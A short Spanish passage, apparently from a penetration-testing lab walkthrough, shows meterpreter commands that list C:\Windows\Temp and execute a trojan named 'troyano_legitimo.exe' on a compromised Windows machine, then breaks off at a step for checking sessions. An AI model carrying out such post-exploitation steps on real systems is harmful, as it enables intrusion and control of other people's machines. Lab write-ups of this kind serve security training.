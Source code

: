 * Verificamos que se encuentre el troyano 

```bash
meterpreter > ls C:\\Windows\\Temp
```
![alt text](image-27.png)

*  y lo ejecutamos el `troyano_legitimo`

```bash
meterpreter > execute -f C:\\Windows\\Temp\\troyano_legitimo.exe
```

![alt text](image-25.png)

* Verificamos las sessiones
